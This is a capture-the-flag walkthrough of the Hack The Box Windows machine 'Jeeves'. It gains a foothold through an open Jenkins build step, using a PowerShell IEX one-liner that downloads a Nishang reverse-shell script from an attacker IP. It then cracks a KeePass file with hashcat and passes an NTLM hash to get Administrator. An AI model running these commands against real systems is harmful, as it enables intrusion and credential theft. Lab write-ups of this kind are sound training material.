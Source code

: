 ## Hack The Box - Jeeves (10.10.10.63)
Jeeves is a medium box from Hack The Box and it is a Windows machine. It presents a minor rabbit hole but with enough enumeration and familiarity with Windows Powershell, Netcat, and Hashcat attackers should have no issue obtaining their flags. Watch the video walkthough on Youtube <a href="https://www.youtube.com/watch?v=u3iB1mrolRU">HERE</a> or read along.

[![Watch Video Walkthough](https://img.youtube.com/vi/u3iB1mrolRU/0.jpg)](https://www.youtube.com/watch?v=u3iB1mrolRU)


### Enumeration
To begin with, we will start a Nmap scan on our target as part of our first enumeration steps. For this, I will opt to use <a href="https://github.com/21y4d/nmapAutomator">nmapAutomator</a>, although you can run a traditional Nmap scan. 

```markdown
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Ask Jeeves
135/tcp   open  msrpc        Microsoft Windows RPC
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         Jetty 9.4.z-SNAPSHOT
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
|_http-title: Error 404 Not Found
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows
```


We have four open ports on our target machine. After no success with enumerating port 445 (SMB), I decided to open our target machine in a web browser to view what is hosted on port 80 (http://10.10.10.63:80). It appears our target is running ‘Ask Jeeves’ as a service and is running on ‘Microsoft-IIS/10.0’. I will run a <a href="https://tools.kali.org/web-applications/dirbuster">DirBuster</a> scan to enumerate further files and directories here but did not obtain anything useful. 


![jeeves](https://user-images.githubusercontent.com/85421181/121051454-17436980-c77f-11eb-8650-e492b0a48f6c.png)



Continuing with our enumeration, I decided to view what is hosted on port 50000 (http://10.10.10.63:50000). It appears our target is running Jetty on this port and it may be running on version 9.4.x according to our Nmap scan from earlier. 

![jetty](https://user-images.githubusercontent.com/85421181/121051549-288c7600-c77f-11eb-8db4-3394bb1d663b.png)

As I run another DirBuster scan on our target machine and port 50000 I decide to research possible exploits available for Jetty 9.4.x and later. After attempting several exploits from GitHub, <a href="https://www.exploit-db.com/exploits/36318">ExploitDB</a>, and <a href="https://www.rapid7.com/db/vulnerabilities/http-jetty-command-execution/">Metasploit</a> I decided that there must be another method to obtain our initial foothold. My DirBuster scan from earlier has finished and has revealed a new directory (/askjeeves). 

![dirb](https://user-images.githubusercontent.com/85421181/121051588-2e825700-c77f-11eb-9ef5-439a7feee42a.png)

It appears our target is hosting an application called Jenkins, software for developers to automatically build, test, and deploy their software. 

![jenkins](https://user-images.githubusercontent.com/85421181/121051616-33470b00-c77f-11eb-9446-4c541faf6114.png)

After poking around the application it appears that we can build and deploy new projects without any restriction. We will go to ‘New Item > Freestyle project’ and name our project whatever we choose. On the next page, we are given several options and the most interesting is the ‘Build’ sections where we can select ‘Execute Windows batch command’ as an option. Interesting! Let us craft a payload using a Powershell one-liner and <a href="https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1">Nishang's Invoke-PowerShellTcp.ps1</a> script. 

### Initial Foothold
We will append the following line to the very end of our Invoke-PowerShellTcp.ps1 script to enable the callback to our attacker machine once executed on our target machine. Please ensure to change ‘10.10.10.10.’ to your IP Address and ‘4444’ to the port which you will be listening on for your reverse shell (Netcat will be utilized for this step and will be explained later). 

```markdown
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.10.10 -Port 4444 
```
Great, our script is ready to go! Let's host it on our attacker machine utilizing either <a href="https://docs.python.org/2.7/library/simplehttpserver.html?highlight=simplehttpserver#module-SimpleHTTPServer">SimpleHTTPServer</a> or <a href="https://docs.python.org/3/library/http.server.html">http.server</a> (either will work). 

```markdown
python -m SimpleHTTPServer 8080
or
python3 -m http.server 8080
``` 
Our attacker machine is now hosting 'Invoke-PowerShellTcp.ps1' on our IP address on port 8080. Once downloaded and executed by our target it will send a reverse shell to our attacker machine. We will catch this reverse shell utilizing <a href="https://www.sans.org/security-resources/sec560/netcat_cheat_sheet_v1.pdf">Netcat</a>. To do this, execute the below command and ensure that the port listed in this command is the same declared at the bottom of our Invoke-PowerShellTcp.ps1 script from earlier.

```markdown
nc -lvnp 4444
```
Time to get our initial foothold. Powershell's IEX is a powerful resource to have in your toolkit so if this is your first time using it, make sure to commit the following to memory because there will be plenty of opportunities to use it again. We will be executing the following Powershell one-liner code in the ‘Execute Windows batch command’ box of our Jenkins application. Before doing so, ensure that 10.10.10.10 is replaced with your attacker machine's IP address. 

```markdown
powershell IEX (New-Object Net.WebClient).downloadString('http://10.10.10.10:8080/Invoke-PowerShellTcp.ps1');
```
![build](https://user-images.githubusercontent.com/85421181/121052031-96d13880-c77f-11eb-8fa3-6c440ed7b0c0.png)

Click ‘Save’ and ‘Build Now’ to see your file get pulled from your attacker machine and executed on the target machine to provide you with your reverse shell caught by Netcat. Congratulations, we have our initial foothold and appear to be a user name ‘kohsuke’. Let us continue with our privilege escalation. 

![foothold](https://user-images.githubusercontent.com/85421181/121052041-9afd5600-c77f-11eb-859e-3a810084317d.png)

### Privledge Escalation
After searching around our target's machine I notice there is a file called ‘CEH.kdbx’ located in ‘C:\Users\kohsuke\Documents’. This file extension is indicative of a KeePass file which we will be using keepass2john and Hashcat to crack and obtain the cleartext password. So first, download the file to your local attacker machine. 

![CEH](https://user-images.githubusercontent.com/85421181/121052053-9df84680-c77f-11eb-9988-cd6287d6bf24.png)

On your attacker machine run the following command to turn your .kdbx file into a hash we can feed into Hashcat for a cleartext password.

```markdown
keepass2john CEH.kdbx > CEH.hash
```
![hash](https://user-images.githubusercontent.com/85421181/121052080-a3559100-c77f-11eb-8041-7d05a4ef1eb0.png)

We will now feed this hash file (CEH.hash) into a tool called Hashcat which will provide us with the cleartext password. For this password crack, I will be utilizing rockyou.txt as a password file but I encourage everyone to checkout SecLists for more resources. 

```markdown
hashcat -m 13400 CEH.hash rockyou.txt
```
OUTPUT:
![hashcat](https://user-images.githubusercontent.com/85421181/121052096-a6e91800-c77f-11eb-8995-1231c2e705ed.png)

With our password being ‘moonshine1’ we can now view the contents of the KeePass file!

![keepass](https://user-images.githubusercontent.com/85421181/121052107-a9e40880-c77f-11eb-8dba-d05c060f6ed8.png)


Viewing all the entries it seems like ‘Backup stuff’ contains an NTLM hash in the password field. 

```markdown
aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
```
We can use a pass-the-hash attack to gain access to our target's machine as Administrator. We will use <a href="https://www.kali.org/blog/passing-hash-remote-desktop/">pth-winexe</a> for this attack.

```markdown
pth-winexe -U Administrator%aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 //10.10.10.63 cmd.exe
```
![pth-winexe](https://user-images.githubusercontent.com/85421181/121052128-b0728000-c77f-11eb-8073-f2db91708325.png)

### Closing Remarks
  We are now Administrator! Before ending this, it is worth noting that you may not be able to obtain your root flag as easily as the user flag. This is because there is a file stream via the ‘hm.txt’ file located in C:\Users\Administrator\Desktop' and it can only be seen by appending /r to your ‘dir’ command. 

![dir](https://user-images.githubusercontent.com/85421181/121052143-b4060700-c77f-11eb-8d07-69e297f563bb.png)

Utilize the following command to obtain your root flag.

```markdown
powershell Get-Content -path C:\Users\Administrator\Desktop\hm.txt -stream root.txt
```
Thanks for reading! 
